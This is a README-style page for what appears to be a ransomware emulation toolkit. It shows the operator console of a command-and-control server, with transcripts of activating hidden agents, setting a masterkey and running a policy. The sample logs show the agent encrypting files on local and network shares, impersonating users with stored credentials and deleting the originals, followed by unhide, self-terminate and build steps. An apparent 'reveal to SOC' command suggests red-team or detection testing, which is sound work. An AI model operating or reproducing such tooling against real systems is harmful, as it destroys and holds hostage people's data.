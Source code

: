 # Base

## Protocol
- 2-way Command JSON
- HTTP/HTTPs for now
- Agent pub sub.
- Agent jitter
- Hot reloading of connectivity endpoints

## Operation

```
$ runbase
```

List checked in agents:
- Active : accepted for interaction
- Pending: not yet accepted for interaction

```
no agent: > activate
Agent (active):

Agents (pending):
2e1bb2f0-c20a-4eb6-baa4-18832af621c2 2021-02-21 12:02:55.9616266 -0600 CST
```

Activate agent content
```
no agent: > activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
```

Get agent info 
```
no agent:activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2 > heartbeat
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
        Host: 555-LT-X0874 / 555-LT-X0874, PID: 25216 (A:false), User: NA\user01
```

Set agent log verbosity
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs set debug
```

Set policy masterkey
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > masterkey
? Please type your masterkey [? for help] *******
masterkey:  *******
? OK to send? Yes
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:masterkey > 
```

Policy load and run
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > polexec
? Choose source of payload: file                                 
? file to get payload from: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
Processing paylaod from file: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:polexec > 
```

Get run summary 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > summary
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
Execution Report for Site ID 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
{
  "SiteId": "2e1bb2f0-c20a-4eb6-baa4-18832af621c2",
  "HostTaskSummaries": [
    {
      "HostIdent": "HostA",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\Users\\user01\\Downloads\\Share\\file5.log",
          "PostImageName": "\\Users\\user01\\Downloads\\Share\\file5.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "BA0D750160BB0ED0136BC1F5E35B3083ABB1B2107560580325F76C43141F925F",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:11 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "X:\\file6.log",
          "PostImageName": null,
          "PreImageHash": "",
          "PostImageHash": null,
          "PreImageSize": 0,
          "PostImageSize": 0,
          "ImageTime": null,
          "SymKey": null,
          "Operation": 1
        }
      ]
    },
    {
      "HostIdent": "HostB",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file1.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file1.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "EA5977B74BDA7AC327458618807BAFF3F2CA605BCC7EAA1303F7175E645104FC",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:12 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file2.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file2.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "CFAAD8CD63AD995A9647053F3C5211A90C39DE55DD405937813F745A4DA0C3A2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:13 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file4.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file4.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "20FCE8E8F624DECB7592487EEEA9D238D9E314A28E99E6B560ED568445D776C2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:14 PM",
          "SymKey": null,
          "Operation": 1
        }
      ]
    }
  ]
}
```

Get Logs 
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs get
Getting logs ...

2021.02.21 12:06:10.684 Debug   Loading config from network
2021.02.21 12:06:10.684 Debug   Deserializing config
2021.02.21 12:06:10.693 Debug   Config tree populated
2021.02.21 12:06:10.695 Debug   Loading configuration tree
2021.02.21 12:06:10.695 Debug   MasterKey: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL, SiteID: 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
2021.02.21 12:06:10.695 Debug   Mapping hosts to authentication
2021.02.21 12:06:10.743 Debug   MasterKeyHash: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL
2021.02.21 12:06:10.743 Debug   Iterating over hosts
2021.02.21 12:06:10.743 Debug
 [[ Entering host : HostA (555-LT-X0874) ]]
2021.02.21 12:06:10.743 Debug   Auth: Local
2021.02.21 12:06:10.743 Debug   Building local user impersonation NetworkCredential
2021.02.21 12:06:10.743 Debug   Iterating over files in host
2021.02.21 12:06:10.753 Debug   Encrypting \Users\user01\Downloads\Share\file5.log => \Users\user01\Downloads\Share\file5.log.enc key: 9993c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:10.754 Debug   Encrypting file \Users\user01\Downloads\Share\file5.log -> \Users\user01\Downloads\Share\file5.log.enc
2021.02.21 12:06:10.754 Debug   File \Users\user01\Downloads\Share\file5.log found
2021.02.21 12:06:11.705 Error   File X:\file6.log not found
2021.02.21 12:06:11.705 Debug   Unable to properly encrypt file: X:\file6.log
2021.02.21 12:06:11.705 Debug
 [[ Entering host : HostB (555-LT-X0874) ]]
2021.02.21 12:06:12.239 Debug   Derived Key: 0D-BE-C1-99-9E-D9-45-D4-BB-C9-4C-D4-83-2E-50-8A-C8-3A-9B-E3-D8-A7-BD-C9-56-66-8A-93-87-67-71-64
2021.02.21 12:06:12.688 Debug   Wrote salt 32-0D-E6-F0-6F-EA-E1-76-FA-1C-1C-E8-96-E8-49-89-7B-B4-06-AF-4C-85-D1-51-49-E5-C8-86-91-E6-C3-DA of size: 32
2021.02.21 12:06:12.702 Debug   Flushed final block
2021.02.21 12:06:12.709 Debug   Encryption routine success
2021.02.21 12:06:12.709 Debug   Deleting original file \\555-LT-X0874\Share\file1.log
2021.02.21 12:06:12.718 Debug   Encrypting \\555-LT-X0874\Share\file2.log => \\555-LT-X0874\Share\file2.log.enc key: 6fd3c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:14.613 Debug   Built networkPath as \\555-LT-X0874
2021.02.21 12:06:15.095 Debug   Decrypted credentials
2021.02.21 12:06:15.096 Debug   Building supplied user impersonation NetworkCredential
2021.02.21 12:06:15.096 Info    Connecting to \\555-LT-X0874
2021.02.21 12:06:15.105 Error   Win32Exception: (0): Cannot connect to System.ComponentModel.Win32Exception (0x80004005): Error connecting to remote share
   at FileConnector.ConnectToSharedFolder..ctor(String networkName, NetworkCredential credentials) in C:\Users\user01\source\repos\FileConnector\FileConnector\Driver.cs:line 67
   at FileConnector.ServerTasks.Impl.TaskRunPolicy.Run() in C:\Users\user01\source\repos\FileConnector\FileConnector\ServerTasks\TaskImpl\TaskRunPolicy.cs:line 142:
2021.02.21 12:06:15.106 Debug   Sleeping for 5000
2021.02.21 12:06:30.182 Debug   => Resource /summary , method: Post
2021.02.21 12:06:30.183 Debug   Sleeping for 5000
```

Reveal agent to SOC
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide console
Unhiding console ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide console > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide message
Unhiding message ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
```
Terminate remote agent 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > agent self terminate
? Sure terminate agent? This is irreversible. Yes
```

## Examples (Runtime)
- [Agent running](../images/agent-running.png)
- [Agent clear memory logs](../images/agent-clear-remote-memory-0buffer-logs.png)
- [Agent send policy summary](../images/agent-sent-policy-output.png)
- [Agent set masterkey on policy](../images/agent-set-masterkey.png)
- [Agent self termination](../images/agent-terminated.png)
- [Agent reveals presence after encryption](../images/agent-unhide-message.png)
- [Agent up verbosity level](../images/agent-up-verbosity-memory.png)
- [Asset encryption](../images/asset-encrypted.png)
- [Agent embedded policy - lights out](../images/embed-policy.png)
- [Operator help system](../images/predictive-command-help.png)

# Dev/Build


`cd racketeer\RNS; export GOPATH=/path`
`go get -d ./...`
`go build -o server.exe`
